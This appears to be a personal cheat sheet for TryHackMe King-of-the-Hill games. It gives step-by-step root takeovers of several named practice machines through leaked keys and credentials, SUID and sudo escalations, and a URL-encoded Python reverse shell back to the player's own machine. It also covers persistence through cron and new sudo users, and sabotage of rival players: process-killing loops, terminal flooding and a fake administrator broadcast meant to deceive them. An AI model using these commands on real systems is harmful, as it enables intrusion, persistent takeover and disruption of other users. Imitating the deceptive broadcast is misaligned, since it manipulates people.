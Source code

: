 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

## Fortune:  
Requires: fcrackzip  
```
nc <BOX_IP> 3333  
```
Returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
```
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
```
Open the zip with the password you got.  Should contain password for fortune account.  
```
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
```
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
`sudo su`  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for.  

# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



